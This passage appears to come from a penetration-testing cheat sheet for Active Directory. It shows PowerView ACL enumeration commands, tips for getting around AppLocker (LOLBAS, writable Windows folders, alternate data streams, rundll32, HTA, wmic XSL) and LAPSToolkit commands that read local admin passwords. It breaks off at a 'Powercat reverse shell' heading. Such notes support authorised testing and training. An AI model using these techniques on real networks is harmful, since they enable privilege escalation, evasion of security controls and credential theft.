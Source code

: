 ```

# Get incoming ACL for a specific object
Get-ObjectACL -SamAccountName "Domain Admins" -ResolveGUIDs | Select IdentityReference,ActiveDirectoryRights

# Find interesting ACLs for the entire domain, show in a readable (left-to-right) format
Find-InterestingDomainAcl | select identityreferencename,activedirectoryrights,acetype,objectdn | ?{$_.IdentityReferenceName -NotContains "DnsAdmins"} | ft

# Get interesting outgoing ACLs for a specific user or group
# ?{} is a filter statement
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReference -match "Domain Admins"} | select ObjectDN,ActiveDirectoryRights 
```

### AppLocker

Identify AppLocker policy. Look for exempted binaries or paths to bypass.

```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 
```

Some high-level bypass techniques:

*   Use [LOLBAS](https://lolbas-project.github.io/) if only (Microsoft-)signed binaries are allowed.
*   If binaries from `C:\Windows` are allowed, try dropping your binaries to `C:\Windows\Temp` or `C:\Windows\Tasks`. If there are no writable subdirectories but writable files exist in this directory tree, write your file to an alternate data stream (e.g. a JScript script) and execute it from there.
*   Wrap your binaries in a DLL file and execute them with `rundll32` to bypass executable rules. If binaries like Python are allowed, use that. If that doesn’t work, try other techniques such as wrapping JScript in a HTA file or running XSL files with `wmic`.

### LAPS

We can use [LAPSToolkit.ps1](https://github.com/leoloobeek/LAPSToolkit/blob/master/LAPSToolkit.ps1) to identify which machines in the domain use LAPS, and which domain groups are allowed to read LAPS passwords. If we are in this group, we can get the current LAPS passwords using this tool as well.

```
# Get computers running LAPS, along with their passwords if we're allowed to read those
Get-LAPSComputers

# Get groups allowed to read LAPS passwords
Find-LAPSDelegatedGroups 
```

Exploitation
------------

### Powercat reverse shell

